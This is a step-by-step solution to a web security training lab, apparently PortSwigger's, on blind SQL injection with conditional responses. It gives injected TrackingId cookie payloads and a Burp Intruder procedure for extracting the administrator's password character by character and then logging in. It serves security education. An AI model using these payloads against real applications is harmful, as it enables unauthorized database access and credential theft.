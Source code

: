 ### Lab: Blind SQL injection with conditional responses

1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.
2.  Modify the `TrackingId` cookie, changing it to: `TrackingId=xyz' AND '1'='1`. Verify that the "Welcome back" message appears in the response.
3.  Now change it to: `TrackingId=xyz' AND '1'='2`. Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.
4.  Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`. Verify that the condition is true, confirming that there is a table called `users`.
5.  Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`. Verify that the condition is true, confirming that there is a user called `administrator`.
6.  The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`. This condition should be true, confirming that the password is greater than 1 character in length.
7.  Send a series of follow-up values to test different password lengths. Send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`. Then send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`. And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.
8.  After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
9.  In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
10.  In the Positions tab, change the value of the cookie to: `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`. This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
11.  Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
12.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
13.  To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".
14.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
15.  Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.
16.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a`
17.  Launch the modified attack, review the results, and note the character at the second offset.
18.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
19.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.
